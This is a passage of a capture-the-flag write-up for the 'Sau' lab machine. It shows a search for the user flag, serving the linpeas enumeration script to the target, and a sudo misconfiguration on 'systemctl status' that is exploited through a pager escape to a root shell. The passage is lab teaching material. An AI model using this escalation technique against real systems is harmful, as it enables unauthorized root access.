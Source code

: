 
---

## 🏁 **Flag Exfiltration**

### **Searching for User Flag**

```bash
puma@sau:/opt/maltrail$ ls -la ~
total 32
drwxr-xr-x 4 puma puma 4096 Jun 19  2023 .
drwxr-xr-x 3 root root 4096 Apr 15  2023 ..
lrwxrwxrwx 1 root root    9 Apr 14  2023 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3771 Feb 25  2020 .bashrc
drwx------ 2 puma puma 4096 Apr 15  2023 .cache
drwx------ 3 puma puma 4096 Apr 15  2023 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .viminfo -> /dev/null
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Dec 25 11:12 user.txt
puma@sau:/opt/maltrail$ cat ~/user.txt 
#* * * ALERT * * * * * * * * * * * * * * * * 
#* If you really want to see this flag, go * 
#* to FLAG CODES at the bottom of the page *
#* * * * * * * * * * * * * * * * * * * * * *
```

### **Privilege Escalation**

Serving Linpeas to PrivEsc
```bash
python -m http.server                    
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.224 - - [25/Dec/2023 14:54:21] "GET /linpeas.sh HTTP/1.1" 200 -
```

After running it, we got this Low-hangging fruit  
![](https://res.cloudinary.com/dulldsqcl/image/upload/v1703538826/blog/sau/yr7kseim2vye35zlux1f.png){.maxH300}

```bash
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

puma@sau:~$ sudo systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sshh!sh
# whoami
root
```
